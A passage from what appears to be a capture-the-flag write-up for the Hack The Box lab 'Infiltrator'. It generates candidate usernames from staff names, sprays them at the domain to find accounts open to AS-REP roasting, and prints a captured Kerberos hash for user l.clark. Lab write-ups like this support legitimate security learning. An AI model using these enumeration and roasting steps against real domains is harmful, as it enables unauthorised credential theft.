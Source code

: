 In total, the names are:

```
David Anderson
Olivia Martinez
Kevin Turner
Amanda Walker
Marcus Harris
Lauren Clark
Ethan Rodriguez
```

Let's use these to make some usernames. I found this cool script online, but there are probably many like it: [https://github.com/florianges/UsernameGenerator](https://github.com/florianges/UsernameGenerator)

After running it, we get a long list of possible usernames:

```
┌──(kali㉿kali)-[~/infiltrator-writeup]
└─$ python3 ./UsernameGenerator.py names.txt possible-names.txt
UsernameGenerator.py - Simple username generator based on a list of name and surname
------------------------------------------------------
Input file: names.txt
Output file: possible-names.txt
------------------------------------------------------
Usernames written to output file possible-names.txt
Number of users created: 364
------------------------------------------------------
```

Let's spray them across the domain, specifically looking for AS-REP roasting pathways. I want to note here, that null sessions and guest accounts should also be enumerated.

We get a ton of output, but notice two things. First, all the "first initial.last name" names return:

```
[-] User d.anderson doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Meaning the usernames are:

```
d.anderson
o.martinez
k.turner
a.walker
m.harris
l.clark
e.rodriguez
```

Second, we get a hash from l.clark:

```
$krb5asrep$23$l.clark@INFILTRATOR.HTB:baab4588fbfff5f7603aa9c86e23b798$d05f713c3e9f1d1f27e1f86a2aff9cb96a0d848aa99dfe1a7e1e4f35949799c13ad40377ae14ae9f7202d57e396addb4af254ac41231f38042c0ed2a88d26e3381fe5f81ed89ed8134e08c54e27ac83956a210c914cdb384c972fd52fdeb6a08d725d47049ed0d09df89da55d89373713a7a0d711db4845c08ab4cfaa5ac665f5f10f525aa458a0a3fed9c5fccd132ea0da6153dad786c2043535e149e3dc646231e331026b43c0ab9688ff819032bef8dcd21afe42d53998b1f877979b0aead322eb358d33aa9a0f201daf2735c07a1ca1c0543e70e6ad66a26a4d750464153126910607716211bb2d11dfe8a2fef028a24
```
